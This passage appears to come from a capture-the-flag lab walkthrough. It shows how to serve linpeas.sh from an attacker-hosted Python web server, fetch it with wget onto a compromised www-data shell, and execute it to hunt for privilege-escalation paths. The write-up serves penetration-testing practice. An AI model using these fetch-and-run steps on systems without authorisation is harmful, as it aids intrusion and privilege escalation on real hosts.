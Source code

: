 # Privilege escalation
We are now going to upload linpeas.sh to check if it can help us to find a way to escalate privileges.</br>
First start a python webserver on port 80.
```
python3 -m http.server 80
```
On www-data user in your machine, navigate to tmp directory and type
```
wget http://IP_of_your_machine:80/linpeas.sh
```
The script is now on the remote machine change its permission and execute it.

<img alt="" class="bg hc hd c" width="1000" height="450" loading="lazy" role="presentation" src="https://i.ibb.co/rQWqcWf/Academy-8.png"></img>
